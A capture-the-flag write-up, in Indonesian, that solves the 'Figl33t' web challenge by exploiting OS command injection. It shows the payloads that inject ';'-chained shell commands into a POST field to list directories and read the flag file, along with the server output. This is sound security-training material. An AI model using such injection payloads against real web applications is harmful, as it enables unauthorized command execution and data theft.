 # Figl33t
My friend really likes ascii art. So I created this website for her.

## Solution
Kita bisa liat dari source code yang di kasih, terdapat fungsi *exec()* yang dapat digunakan untuk menjalankan kode yang dihasilkan secara dinamis.
Saya mencoba menggunakan Tools yang bernama OWASP ZAP untuk mendapatkan informasi dari website ctf tersebut, ternyata dari hasil scanning OWASP terdapat alert yang menjadi sorotan bagi saya, ternyata benar saat melakukan POST data menggunakan ```'& sleep 15 &'``` saya mengingatkan methode **OS Command Injection.**
![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/figl33t/scanning.png)
Saya mencoba untuk melakukan exploit dengan menggubah payloadnya
Payload: ```'& sleep 15 &' >> '; echo hello world'```
Response:
```hello world```
![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/figl33t/hello%20world.png)
Setelah berhasil melakukan echo string kita coba melakukan listing directory untuk melihat isi folder dalam server.
Payload: ```'; ls -la'```
Response:
```
/app
total 80
drwxr-xr-x  1 root root  4096 Jun 10 16:22 .
drwxr-xr-x  1 root root  4096 Jun 10 16:22 ..
-rw-r--r--  1 root root    13 Jun 10 16:02 .dockerignore
-rw-r--r--  1 root root   394 Jun 10 16:22 Dockerfile
-rw-r--r--  1 root root   673 Jun 10 16:22 app.js
drwxr-xr-x 60 root root  4096 Jun 10 16:22 node_modules
-rw-r--r--  2 root root 40385 Jun 10 16:22 package-lock.json
-rw-r--r--  1 root root   286 Jun 10 16:02 package.json
drwxr-xr-x  2 root root  4096 Jun 10 16:02 public
```
Ternyata tidak ada file FLAG dalam folder /app jadi coba kita mundur satu langkah
Payload: ```'; ls / -la'```
Response:
```
total 104
drwxr-xr-x    1 root root 4096 Jun 10 16:22 .
drwxr-xr-x    1 root root 4096 Jun 10 16:22 ..
-rwxr-xr-x    1 root root    0 Jun 10 16:22 .dockerenv
drwxr-xr-x    1 root root 4096 Jun 10 16:22 app
drwxr-xr-x    1 root root 4096 May 23 01:49 bin
drwxr-xr-x    2 root root 4096 Apr  2 11:55 boot
drwxr-xr-x    5 root root  320 Jun 10 16:23 dev
drwxr-xr-x    1 root root 4096 Jun 10 16:22 etc
-rw-r--r--    2 root root   41 Jun 10 16:02 flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt
drwxr-xr-x    1 root root 4096 May 23 09:00 home
drwxr-xr-x    1 root root 4096 May 23 01:49 lib
drwxr-xr-x    2 root root 4096 May 22 00:00 lib64
drwxr-xr-x    2 root root 4096 May 22 00:00 media
drwxr-xr-x    2 root root 4096 May 22 00:00 mnt
drwxr-xr-x    1 root root 4096 May 23 09:03 opt
dr-xr-xr-x 2311 root root    0 Jun 10 16:23 proc
drwx------    1 root root 4096 May 23 09:03 root
drwxr-xr-x    3 root root 4096 May 22 00:00 run
drwxr-xr-x    1 root root 4096 May 23 01:48 sbin
drwxr-xr-x    2 root root 4096 May 22 00:00 srv
dr-xr-xr-x   13 root root    0 Apr 11  2018 sys
drwxrwxrwt    1 root root 4096 Jun 10 16:22 tmp
drwxr-xr-x    1 root root 4096 May 22 00:00 usr
drwxr-xr-x    1 root root 4096 May 22 00:00 var
```
and BOOM ada file bernama flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt jika sudah ketemu yasudah langsung kita eksekusi nunggu apa lagii?
Payload: ```'; cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'```
Response:
```ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}```
![Screenshot](https://media.tenor.com/47GfMCfGemwAAAAC/pepe-the-frog-pepe.gif)
